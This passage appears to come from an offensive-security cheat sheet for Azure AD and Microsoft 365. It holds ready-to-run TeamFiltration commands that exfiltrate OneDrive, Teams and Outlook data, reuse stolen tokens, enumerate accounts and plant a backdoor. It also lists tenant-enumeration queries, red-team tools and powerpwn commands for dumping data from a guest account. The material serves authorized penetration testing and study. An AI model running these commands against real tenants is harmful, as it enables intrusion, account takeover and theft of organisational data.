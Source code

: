     TeamFiltration.exe --outpath  C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --exfil --aad 
    TeamFiltration.exe --outpath  C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --exfil --tokens C:\\OutputTokens.txt --onedrive --owa
    TeamFiltration.exe --outpath  C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --exfil --teams --owa --owa-limit 5000
    TeamFiltration.exe --outpath  C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --debug --exfil --onedrive
    TeamFiltration.exe --outpath  C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --enum --validate-teams
    TeamFiltration.exe --outpath  C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --enum --validate-msol --usernames C:\Clients\2021\FooBar\OSINT\Usernames.txt
    TeamFiltration.exe --outpath  C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --backdoor
    TeamFiltration.exe --outpath  C:\Clients\2023\FooBar\TFOutput --config myCustomConfig.json --database
    ```
* [**Azure/StormSpotter**](https://github.com/Azure/Stormspotter) - :warning: This repository has not been updated recently - Azure Red Team tool for graphing Azure and Azure Active Directory objects
* [**nccgroup/Azucar**](https://github.com/nccgroup/azucar.git) - :warning: This repository has been archived - Azucar automatically gathers a variety of configuration data and analyses all data relating to a particular subscription in order to determine security risks.
* [**FSecureLABS/Azurite Explorer**](https://github.com/FSecureLABS/Azurite) - :warning: This repository has not been updated recently - Enumeration and reconnaissance activities in the Microsoft Azure Cloud.
* [**cyberark/SkyArk**](https://github.com/cyberark/SkyArk) - :warning: This repository has not been updated recently - Discover the most privileged users in the scanned Azure environment - including the Azure Shadow Admins.   


## Azure AD - User Enumeration

### Enumerate Tenant Informations

* Federation with Azure AD or O365
    ```powershell
    Get-AADIntLoginInformation -UserName <USER>@<TENANT NAME>.onmicrosoft.com
    https://login.microsoftonline.com/getuserrealm.srf?login=<USER>@<DOMAIN>&xml=1
    https://login.microsoftonline.com/getuserrealm.srf?login=root@<TENANT NAME>.onmicrosoft.com&xml=1
    ```
* Get the Tenant ID
    ```powershell
    Get-AADIntTenantID -Domain <TENANT NAME>.onmicrosoft.com
    https://login.microsoftonline.com/<DOMAIN>/.well-known/openid-configuration
    https://login.microsoftonline.com/<TENANT NAME>.onmicrosoft.com/.well-known/openid-configuration
    ```


### Enumerate from a Guest Account

```ps1
powerpwn recon --tenant {tenantId} --cache-path {path}
powerpwn dump -tenant {tenantId} --cache-path {path}
powerpwn gui --cache-path {path}
```
